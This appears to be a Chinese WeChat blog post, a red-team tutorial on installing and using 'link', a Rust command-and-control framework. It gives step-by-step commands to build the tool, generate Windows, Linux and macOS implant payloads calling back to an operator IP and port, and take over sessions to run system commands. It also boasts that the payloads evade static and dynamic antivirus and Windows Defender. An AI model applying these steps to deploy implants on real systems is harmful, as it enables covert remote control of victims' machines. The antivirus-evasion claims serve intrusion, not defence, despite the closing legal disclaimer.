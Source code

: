 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tUpnXFOweERfH5Zep1f5Ng)

  点击蓝字关注我哦

前言

恕我直言，cs 无论是马或者源文件都被分析烂了，且 cs 的行为太明显了，必 须要大改特改才能满足现在的红蓝对抗，但是想大改谈何容易，所以最快的方 法是寻找一款新的 c2 框架，说白了，远控自己都能写一个出来，执行一些简单 操作还是可以的。

  

故事从现在开始

最佳有一款老外开发的猎鹰 c2 框架说是要在下周发布，看着很吊的样子，我们 拭目以待，今天要介绍的一款好玩的用 rust 语言开发的 c2 框架，是我无意间 逛 github 上面看到的，这里我记录一下此框架的使用：为啥我会选择这个框 架，因为它是 rust 语言写的，越小众的语言，在红队活动中往往效果越好。github 地址，希望大佬能魔改一下：

```
https://github.com/postrequest/link
```

安装：直接使用它的安装脚本就行

```
git clone https://github.com/postrequest/link
cd link/
./kali-install.sh
```

我这个在 kali 上面安装的，编译完成后，link 程序会加入./target/release / 目录 下  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvWxPYXXpwhEy0hXvgGAhUzQI3iaOcKueaSGxNsr3mkN1PGBQQibdVaKjqZtxv5xec1zYWLfVO1ytiaw/640?wx_fmt=png)

直接运行，然后我们进入框架里面，会让你先选择监听 c2 的端口  

```
./target/release/link
```

可以在 linux，windows，macos 中生成载荷：

```
generate  ip:port  #生成 windows   载荷 192.168.75.186
generate-osx  ip:port  #生成 os   载荷
generate-linux  ip:port  #生成 linux   载荷
```

我这里生成 windows 的来玩玩：

```
generate  192.168.75.186:443
```

如果不行报错，再次尝试安装脚本，然后推出当前 shell 框，再起一个新的 shell 框

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvWxPYXXpwhEy0hXvgGAhUzYxHHaUEuicibFgxbdcrjBQRgryXiaH5Lujc0D6r54YJWK7G9IJUaFNbZw/640?wx_fmt=png)

有一说一，生成的速度感人！

执行载荷，会话就来了  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvWxPYXXpwhEy0hXvgGAhUzarVJy84ojvb3PKZtXkria4qcl2fwZCIfsG1z1iasrwkvQUDUVpic0gqMQ/640?wx_fmt=png)

用 links 来查看当前所有会话：  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvWxPYXXpwhEy0hXvgGAhUzfwvOic3ppNAd5MbjTc4jsVa8UGoFhlCOvaMuy8oj0Ognl77GES613Ng/640?wx_fmt=png)

进入会话：

```
links -i 97234593be5f4b2ca8fc7a4f4b8d775e
```

可以执行系统命令：  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvWxPYXXpwhEy0hXvgGAhUzFQzvsoDE9spIGhbbXpbr3HKUYWWg08vibOWmCRibDBylVCPfmIc4s16A/640?wx_fmt=png)

通过 help 查看当前支持的功能：  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvWxPYXXpwhEy0hXvgGAhUz9iaIA6sBiamIZDC7hAos8NaZrvl8lRcWG9FFI1ELIBFZQ5Ez2CnFRMpQ/640?wx_fmt=png)

很多功能嗷，功能很强大，足够满足红队活动。

还支持扩展嗷，不错嗷！！

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvWxPYXXpwhEy0hXvgGAhUzlHrIZOmyFd5UFGavm5F6FSfd79tN191zAhiajoTAxMMK8zghg14vKkQ/640?wx_fmt=png)

现在测试免杀效果，用原生的生成 exe 来测试，我觉得不错，因为 rust 这门语言真的太小众了

静态过了：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvWxPYXXpwhEy0hXvgGAhUzEogyZRbOib9RlnzWRxBdSvgPBcI4ib2BJniahysFPT4ibiacdj3mnv3FLRQ/640?wx_fmt=png)

果然，动态也轻松过，轻松上线，小众语言就真的很 nice

这里我还想测试一下 windows defender：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvWxPYXXpwhEy0hXvgGAhUz2ibibgrOoldlx9useKqmrysFvEXkQbgpQ4ic3XRicf54Eiakx8bQO1nFQKQ/640?wx_fmt=png)

结果一样，soso，很容易嘛，一点挑战性都没有！！！！！

更多好玩的红队工具，技巧，请关注知识星球

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvWxPYXXpwhEy0hXvgGAhUzHDCsK1iaNV5sBTibBRh6ONal2RPQ9hxjdZSluLeqsXd80NnAYbMrAp9A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

END

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtIZ5VYusLbEoY8iaTjibTWg6AKjAQiahf2fctN4PSdYm2O1Hibr56ia39iaJcxBoe04t4nlYyOmRvCr56Q/640?wx_fmt=gif)

**看完记得点赞，关注哟，爱您！**

**请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

关注此公众号，回复 "Gamma" 关键字免费领取一套网络安全视频以及相关书籍，公众号内还有收集的常用工具！

  

**在看你就赞赞我！**

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtaCxgwMT2m4uYpJ3ibeMgbThXaInFkmyjOOcBoNCXGun5icNbT4mjCjcREA3nMN7G8icS0IKM3ebuLA/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODtaCxgwMT2m4uYpJ3ibeMgbTkwLkofibxKKjhEu7Rx8u1P8sibicPkzKmkjjvddDg8vDYxLibe143CwHAw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/96Koibz2dODuKK75wg0AnoibFiaUSRyYlmhIZ0mrzg9WCcWOtyblENWAOdHxx9BWjlJclPlVRxA1gHkkxRpyK2cpg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtaCxgwMT2m4uYpJ3ibeMgbTicALFtE3HLbUiamP3IAdeINR1a84qnmro82ZKh4lpl5cHumDfzCE3P8w/640?wx_fmt=gif)

扫码关注我们

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtaCxgwMT2m4uYpJ3ibeMgbTicALFtE3HLbUiamP3IAdeINR1a84qnmro82ZKh4lpl5cHumDfzCE3P8w/640?wx_fmt=gif)

扫码领 hacker 资料，常用工具，以及各种福利

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtaCxgwMT2m4uYpJ3ibeMgbTnHS31hY5p9FJS6gMfNZcSH2TibPUmiam6ajGW3l43pb0ySLc1FibHmicibw/640?wx_fmt=gif)

转载是一种动力 分享是一种美德